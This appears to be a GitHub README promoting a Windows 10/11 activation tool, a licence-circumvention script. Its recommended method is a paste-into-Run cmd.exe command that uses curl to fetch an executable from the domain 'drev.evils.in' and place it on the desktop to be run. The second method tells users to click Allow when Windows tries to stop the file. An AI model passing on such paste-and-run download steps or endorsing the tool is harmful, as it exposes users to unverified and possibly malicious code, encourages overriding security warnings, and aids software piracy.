 <p align="center"><a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=500&color=10BB39&width=435&lines=DWAT+-+v5;The+fastest+Windows+activation+script;Now+improved+and+updated+with+cleaner+GUI" alt="Typing SVG" /></a>"></p>

<h1 align="center">Drev's Windows Activation Tool (DWAT)</h1>

<p align="center">The best and updated Windows activation tool/script for Windows 10 and 11 by DrevilYT.</p>
<hr>

## Download / How to use it?

### Method 1 - Windows Run Installer (Recommended)

-   Right-click on the Windows start menu and select Run (or press Win key + R).
-   Copy-paste the below code and press enter.
    ```
    cmd.exe /c cd %userprofile%\desktop & curl -o DWAT.exe "https://drev.evils.in/ActivationScript/v4.8/DWAT.exe" & echo. & echo. & echo Drev's Activation Script should be on your desktop now. & title v4.8 & pause
    ```
-   The script should be on your desktop now. Run it and select your options.
-   That's all.

### Method 2 - Traditional

-   Download the file from the [Latest Release](https://github.com/DrevilYT/ActivationScript/releases/latest)
-   Run the file named DWAT.exe.
-   Select Yes or Allow if Windows tries to prevent you from running it.
-   You will see the activation options. Select your option.
-   That's all.

### Download Other/Older Versions

-   [Click here for more info](https://github.com/DrevilYT/ActivationScript/tree/main/installer/readme.md)
</br>

```
Latest Version: 5.0
Release date: 17-Oct-2024
```

### Homepage - [https://drev.uk.to/](https://drev.uk.to/)
</br>

---

<p align="center">Made by Drevil</p>
<p align="center">Old Repo: https://github.com/DrevilYT/UpgradeScript</p>
